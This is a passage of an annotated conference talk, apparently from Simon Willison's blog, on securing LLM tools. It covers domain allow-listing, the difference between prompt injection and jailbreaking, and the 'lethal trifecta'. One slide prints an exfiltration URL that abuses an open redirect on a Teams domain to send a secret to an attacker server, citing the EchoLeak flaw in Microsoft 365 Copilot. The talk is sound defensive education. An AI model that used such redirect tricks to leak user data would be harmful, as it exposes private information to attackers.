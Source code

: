   <img loading="lazy" src="https://static.simonwillison.net/static/2025/the-lethal-trifecta/the-lethal-trifecta.010.jpeg" alt="Allow-listing domains can help...
But don’t allow-list *.teams.microsoft.com
" style="max-width: 100%" />
  <div><a style="float: right; text-decoration: none; border-bottom: none; padding-left: 1em;" href="https://simonwillison.net/2025/Aug/9/bay-area-ai/#the-lethal-trifecta.010.jpeg">#</a>
  <p>Be careful when allow-listing domains though...</p>
  </div>
</div>
<div class="slide" id="the-lethal-trifecta.011.jpeg">
  <img loading="lazy" src="https://static.simonwillison.net/static/2025/the-lethal-trifecta/the-lethal-trifecta.011.jpeg" alt="But don’t allow-list *.teams.microsoft.com
https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?
url=%3Cattacker_server%3E/%3Csecret%3E&amp;v=1
" style="max-width: 100%" />
  <div><a style="float: right; text-decoration: none; border-bottom: none; padding-left: 1em;" href="https://simonwillison.net/2025/Aug/9/bay-area-ai/#the-lethal-trifecta.011.jpeg">#</a>
  <p>... because <a href="https://simonwillison.net/2025/Jun/11/echoleak/">a recent vulnerability was found in Microsoft 365 Copilot</a> when it allowed <code>*.teams.microsoft.com</code> and a security researcher found an open redirect URL on <code>https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=...</code>
It's very easy for overly generous allow-lists to let things like this through.</p>
  </div>
</div>
<div class="slide" id="the-lethal-trifecta.012.jpeg">
  <img loading="lazy" src="https://static.simonwillison.net/static/2025/the-lethal-trifecta/the-lethal-trifecta.012.jpeg" alt="Coining terms that stick is hard!
Prompt injection... that’s when you
inject a bad prompt into an LLM, right?
" style="max-width: 100%" />
  <div><a style="float: right; text-decoration: none; border-bottom: none; padding-left: 1em;" href="https://simonwillison.net/2025/Aug/9/bay-area-ai/#the-lethal-trifecta.012.jpeg">#</a>
  <p>I mentioned earlier that one of my weird hobbies is coining terms. Something I've learned over time is that this is <em>very</em> difficult to get right!</p>
<p>The core problem is that when people hear a new term they don't spend any effort at all seeking for the original definition... they take a guess. If there's an obvious (to them) definiton for the term they'll jump straight to that and assume that's what it means.</p>
<p>I thought prompt injection would be obvious - it's named after SQL injection because it's the same root problem, concatenating strings together.</p>
<p>It turns out not everyone is familiar with SQL injection, and so the obvious meaning to them was "when you inject a bad prompt into a chatbot".</p>
<p>That's not prompt injection, that's jailbreaking. I wrote <a href="https://simonwillison.net/2024/Mar/5/prompt-injection-jailbreaking/">a post outlining the differences between the two</a>. Nobody read that either.</p>
  </div>
</div>
<div class="slide" id="the-lethal-trifecta.013.jpeg">
  <img loading="lazy" src="https://static.simonwillison.net/static/2025/the-lethal-trifecta/the-lethal-trifecta.013.jpeg" alt="The lethal trifecta
Access to Private Data
Ability to Externally Communicate
Exposure to Untrusted Content
" style="max-width: 100%" />
  <div><a style="float: right; text-decoration: none; border-bottom: none; padding-left: 1em;" href="https://simonwillison.net/2025/Aug/9/bay-area-ai/#the-lethal-trifecta.013.jpeg">#</a>
  <p>I should have learned not to bother trying to coin new terms.</p>
<p>... but I didn't learn that lesson, so I'm trying again. This time I've <a href="https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/">coined the term</a> <strong>the lethal trifecta</strong>.</p>
<p>I'm hoping this one will work better because <em>it doesn't have an obvious definition</em>! If you hear this the unanswered question is "OK, but what are the three things?" - I'm hoping this will inspire people to run a search and find my description.</p>
  </div>
</div>
<div class="slide" id="the-lethal-trifecta.014.jpeg">